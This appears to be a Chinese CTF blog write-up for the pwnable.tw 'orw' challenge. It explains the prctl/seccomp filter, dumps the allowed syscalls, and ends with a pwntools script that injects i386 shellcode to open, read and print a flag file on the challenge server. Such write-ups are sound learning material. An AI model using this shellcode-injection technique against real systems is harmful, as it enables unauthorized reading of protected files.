 ```yaml
---
layout: post
title: prctl&pwnable_orw
category: pwn
tags: [pwn]
---
```




## 前言
写着写着。。。发现有师傅已经介绍了seccomp的[相关内容](https://bbs.xdsec.org/d/567-seccomp-2019bytectf-vip)。

## 相关工具
seccomp-tools https://github.com/david942j/seccomp-tools

## orw
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
拽进Ida，根据prctl函数可以确定几个结构体。
```
  qmemcpy(&sock_filter, stru_8048640, 0x60u);
  LOWORD(sfp.len) = 12;
  sfp.filter = &sock_filter;
  prctl(38, 1, 0, 0, 0);                        // prctl(PR_SET_NO_NEW_PRIVS,1,0,0,0);
  prctl(22, 2, &sfp);                           // prctl(PR_SET_SECCOMP,SECCOMP_MODE_FILTER,&prog);
```

![img](/assets/images/2020-02-07-prctl&pwnable_orw/struct3.png)
![img](/assets/images/2020-02-07-prctl&pwnable_orw/struct1.png)


整个程序就是让我们输入一段shellcode，去打开提示所说的 **/home/orw/flag** 


```
➜  seccomp-tools dump ./orw
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x07 0x00 0x000000ad  if (A == rt_sigreturn) goto 0011
 0004: 0x15 0x06 0x00 0x00000077  if (A == sigreturn) goto 0011
 0005: 0x15 0x05 0x00 0x000000fc  if (A == exit_group) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == exit) goto 0011
 0007: 0x15 0x03 0x00 0x00000005  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011
 0009: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0011
 0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```
能用的函数：rt_sigreturn、sigreturn、exit_group、exit、open、read、write

## exp
```python
from pwn import *
p = remote('chall.pwnable.tw',10001)
shellcode = ''
#open(/home/orw/flag,0,0)
shellcode+=asm('mov eax,0x5;push 0x00006761;push 0x6c662f77;push 0x726f2f65;push 0x6d6f682f;mov ebx,esp;int 0x80;')
#read(3,/home/orw/flag,0x30)
shellcode +=asm('mov eax,0x3;mov ecx,ebx;mov ebx,0x3;mov edx,0x30;int 0x80;')
#write(1,/home/orw/flag,0x30)
shellcode+=asm('mov eax,0x4; mov ebx,0x1;int 0x80;')
p.recvuntil(':')
p.send(shellcode)
p.interactive()
```

在 http://syscalls.kernelgrok.com/ 可以看到调用号和各寄存器作用